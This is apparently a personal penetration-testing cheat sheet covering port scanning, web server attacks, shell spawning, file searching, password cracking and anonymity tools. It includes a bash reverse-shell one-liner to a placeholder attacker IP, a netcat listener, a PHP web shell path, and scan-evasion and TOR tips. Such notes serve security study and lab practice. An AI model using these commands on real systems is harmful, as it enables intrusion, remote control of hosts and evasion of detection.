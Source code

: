 # Target enumaration
1. `nmap <ip> -p-` (all ports) 
    - `-sU` (UDP) `-Pn` (skip host discovery)`
    - `-A` (implies `-O` (OS), `-sC` (scripts), `-sV` (version))
    - `-f` (fragment packets) `-D` (decoy)

# Webservers
1. Spider website (e.g. using Burp Suite Proxy without intercept)
2. Enumerate subdomains and dirs (e.g. with `gobuster`)
3. Gain read access on webserver
    - Enumerate login forms
    - XSS, SQL-Injection
4. Gain write access on webserver
    - Access OS shell
    - Set up reverse shell with `nc -lvnp <port>`
        - /usr/share/webshells/php/php-reverse-shell.php
        - `bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"`
    - Spawn fully interactive shell
        - `python3 -c 'import pty;pty.spawn("/bin/bash")'` CTRL+Z `stty raw -echo` `fg` `export TERM=xterm`
    - Use ssh if credentials found at some point
    - Check out user permissions with `whoami`, `id`, `sudo -l`
6. Search webserver
    - Interesting text data
        - `find . -type f -name '<glob pattern>' | xargs cat | grep -i <glob pattern>`
    - Binaries
        - Find binaries with permissions for user group `find / -group <group_name> 2>/dev/null`
        - Query infos about files `ls -la <path_to_file> && file <path_to_file>`
        - Append PATH `export PATH=<directory>:$PATH`


# Password cracking
1. Use Google as Rainbow Table

## Windows
`impacket-psexec`

# Privacy
1. Tails
2. Proxychains with TOR